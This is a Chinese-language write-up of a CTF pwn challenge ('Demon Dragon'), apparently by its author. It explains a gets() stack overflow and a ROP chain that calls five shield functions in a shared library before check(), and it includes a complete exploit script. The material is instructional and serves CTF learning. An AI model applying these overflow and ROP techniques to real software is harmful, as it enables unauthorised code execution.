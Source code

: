 # Demon Dragon

题目本身不难，略微有些工作量。

首先是逆向程序，一开始会调用6个函数，这6个函数来自题目同时给出的`libmagic.so`，目的是为了让这6个函数被动态链接进来，可以直接忽略。随后，Demon Dragon会使用5种元素攻击你，元素的顺序是随机的。接下来需要输入使用的技能，这里存在简单的`gets`栈溢出。但是并不清楚溢出之后要干什么。

然后我们逆向`libmagic.so`，这个文件保留了符号表，因此可以看到刚才的6个函数，分别是5种元素护盾和一个`check`函数。观察后可以发现每种元素护盾都可以克制另一种元素（克制关系在题目描述里），当5种攻击都被克制后就可以通过`check`来拿到flag。可以看到`check`里存在`system("cat flag");`，如果这个函数不是动态链接的，选手可以直接栈溢出跳到这里。此外，5种护盾如果没有符号表则逆向难度较大，因此我把它们和`check`都编译成了动态链接库。

最后来看护盾如何调用：所有护盾都只需要函数参数等于特定值即可成功调用，区别仅仅是特定值与参数个数不同。那么如何控制参数呢？这是64位程序，我们需要控制前三个参数寄存器`rdi,rsi,rdx`。前两者在偏移过的`__lib_csu_init`中可以找到，比较通用：
```
pop rdi; ret
pop rsi; pop r15; ret
```
而`rdx`不太好控制，于是我在程序中直接硬编码了一个gadget：
```
pop rdi; pop rsi; pop rdx; ret
```

这样就可以构造rop链了，按元素克制关系调用5种护盾，最后返回到`check`函数getflag。不要忘了`check`函数也需要参数，这个参数可以参考第一次调用`check`时候的参数，位于`0x6020b0`。
```py
ru('with ')
elem = [ru(', ') for i in range(4)]
elem.append(ru('!\n'))

pop_rdi = 0x400e43 # 1
pop_rsi = 0x400e41 # 2
pop3 = 0x400c3a # 1,2,3

strategy = {
	'gold': flat(pop_rdi,0xdeadbabe,pop_rsi,0xdeadfa11,0,elf.plt['fire_shield']),
	'wood': flat(pop_rdi,0xdeadbeef,elf.plt['gold_shield']),
	'water': flat(pop_rdi,0xfee1dead,elf.plt['earth_shield']),
	'fire': flat(pop3,0xbaaaaaad,0x8badf00d,0xd15ea5e,elf.plt['water_shield']),
	'earth': flat(pop_rdi,0xcafebabe,pop_rsi,0xdeadbaad,0,elf.plt['wood_shield'])
}

payload = 'a'*0x48
for attack in elem:
	payload += strategy[attack]

pos = 0x6020b0
payload += flat(pop_rdi,pos,elf.plt['check'])
sla('Skill > ',payload)
```

注意链接时`libmagic.so`的目录，我放在和源程序同一目录下因此使用选项`-L.`。同时`/usr/lib/`下也需要有`libmagic.so`。

此外，感谢TaQini师傅提供的非预期解：直接ret2libc。